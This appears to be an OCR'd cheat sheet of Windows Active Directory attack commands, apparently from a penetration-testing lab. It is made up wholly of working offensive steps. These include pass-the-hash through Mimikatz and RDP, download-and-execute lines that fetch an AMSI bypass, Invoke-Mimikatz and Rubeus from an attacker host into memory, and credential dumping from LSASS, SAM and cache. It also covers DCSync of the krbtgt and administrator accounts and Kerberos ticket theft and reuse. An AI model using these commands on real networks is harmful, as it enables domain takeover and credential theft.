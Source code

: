     //Runas:
        runas /netonly /user:child.internal.domain\TestMachine$ "powershell -ep bypass"

    //Run As via PsExec (w/ PW):
        \\192.168.49.121\visualstudio\sysinternals\PsExec64.exe -accepteula \\LocalComputerIPAddress -u DOMAIN\my-user -p mypass CMD
        //or:  Enter-PSSession -Computer appsrv01

    //Mimikatz Run As via Hash (might not work):
            reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /t REG_DWORD /v AllowInsecureGuestAuth /d 1 /f
            copy \\192.168.49.121\visualstudio\mimikatz.exe .
        privilege::debug; sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:cmd.exe
        //Or:  Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:cmd.exe" "exit"'

    //Better - Initiate login via RDP PTH:
        //allow RDP PTH:  New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
        proxychains xfreerdp /u:nicky /pth:a71ad837cd4a6fcd8fd0fedc62c9b209 /v:172.16.167.160 /cert-ignore /size:2800x1900 /scale:180

    //Mimikatz in Memory:
        (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/amsi.txt') | IEX
        (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/Invoke-Mimikatz10.ps1') | IEX
        Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'
        Invoke-Mimikatz -Command '"lsadump::dcsync /domain:INFINITY.com /user:infinity\krbtgt" "exit"'
        Invoke-Mimikatz -Command '"lsadump::dcsync /domain:INFINITY.com /user:infinity\administrator" "exit"'

    //Rubeus in Memory:
        $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.210/Rubeus.exe'); $assem = [System.Reflection.Assembly]::Load($data); [Rubeus.Program]::Main("<args>".Split())

    //Kerberos Tickets:
        //Request:
            kiwi_cmd "kerberos::list"
            kiwi_cmd "kerberos::ask /target:MSSQLSvc/sql05.tricky.com:1433"
            kiwi_cmd "kerberos::list /export"
            \\192.168.49.121\visualstudio\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /ticket:c:\windows\tasks\t2.kirbi /service:cifs/rdc02.comply.com /dc:rdc02.comply.com /ptt
            //Overpass-the-hash:
                \\192.168.49.121\visualstudio\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /domain:complyedge.com /user:jim /rc4:e48c13cefd8f9456d79cd49651c134e8 /ptt
        //Convert (base64 Rubeus):
            echo -n "ABC...==" | base64 -d > /tmp/ticket
            ticketConverter.py /tmp/ticket /tmp/ticket.ccache
        //Use:
            export KRB5CCNAME=/tmp/ticket.ccache
            sudo echo "172.16.173.151 sql05.tricky.com" >> /etc/hosts
            proxychains mssqlclient.py -k -dc-ip 172.16.173.150 sql05.tricky.com -debug
